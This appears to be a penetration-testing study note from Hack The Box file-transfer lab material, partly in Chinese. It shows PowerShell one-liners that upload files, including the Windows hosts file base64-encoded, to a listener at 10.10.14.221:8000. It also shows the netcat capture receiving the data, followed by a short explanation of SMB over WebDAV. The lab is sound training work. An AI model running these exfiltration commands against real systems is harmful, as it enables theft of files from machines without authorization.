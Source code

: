 一行版本（不用下载上面的脚本了。少用，似乎会卡剪贴板）：
```powershell
function Invoke-FileUpload { Param ([Parameter(Position = 0, Mandatory = $True)] [String]$File, [Parameter(Position = 1, Mandatory = $True)] [String]$Uri) $FileToUpload = Get-ChildItem -File "$File"; $UTF8woBOM = New-Object "System.Text.UTF8Encoding" -ArgumentList @($false); $boundary = '----timeless'; $tempFile = New-TemporaryFile; Remove-Item $tempFile -Force -ErrorAction Ignore; $sw = New-Object System.IO.StreamWriter($tempFile, $true, $UTF8woBOM); $fileName = [System.IO.Path]::GetFileName($FileToUpload.FullName); $sw.Write("--$boundary`r`nContent-Disposition: form-data;name=`"files`";filename=`"$fileName`"`r`n`r`n"); $sw.Close(); $fs = New-Object System.IO.FileStream($tempFile, [System.IO.FileMode]::Append); $bw = New-Object System.IO.BinaryWriter($fs); $fileBinary = [System.IO.File]::ReadAllBytes($FileToUpload.FullName); $bw.Write($fileBinary); $bw.Close(); $sw = New-Object System.IO.StreamWriter($tempFile, $true, $UTF8woBOM); $sw.Write("`r`n--$boundary--`r`n"); $sw.Close(); Invoke-RestMethod -Method POST -Uri $uri -ContentType "multipart/form-data; boundary=$boundary" -InFile $tempFile; $FileHash = Get-FileHash -Path "$File" -Algorithm MD5; Write-Host "[+] File Uploaded: " $FileToUpload.FullName; Write-Host "[+] FileHash: " $FileHash.Hash };   Invoke-FileUpload -Uri http://10.10.14.221:8000/upload -File upload_win.zip
```

### PowerShell Base64 Web Upload

```powershell-session
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte));   Invoke-WebRequest -Uri http://10.10.14.221:8000/ -Method POST -Body $b64
```

To receive:
```shell-session
TimeLess613@htb[/htb]$ nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.129] 50923
POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1682
Content-Type: application/x-www-form-urlencoded
Host: 192.168.49.128:8000
Content-Length: 1820
Connection: Keep-Alive

IyBDb3B5cm...SNIP...

TimeLess613@htb[/htb]$ echo <base64> | base64 -d -w 0 > hosts
```


### SMB Uploads over HTTP

> Commonly enterprises don't allow the SMB protocol (TCP/445) out of their internal network because this can open them up to potential attacks.
> 
> - For more information: [Preventing SMB traffic from lateral connections and entering or leaving the network](https://support.microsoft.com/en-us/topic/preventing-smb-traffic-from-lateral-connections-and-entering-or-leaving-the-network-c0541db7-2244-0dce-18fd-14a3ddeb282a)
> 
> An alternative is to run SMB over HTTP with `WebDav`. 
> `WebDAV` [(RFC 4918)](https://datatracker.ietf.org/doc/html/rfc4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The `WebDAV` protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. `WebDAV` can also use HTTPS.
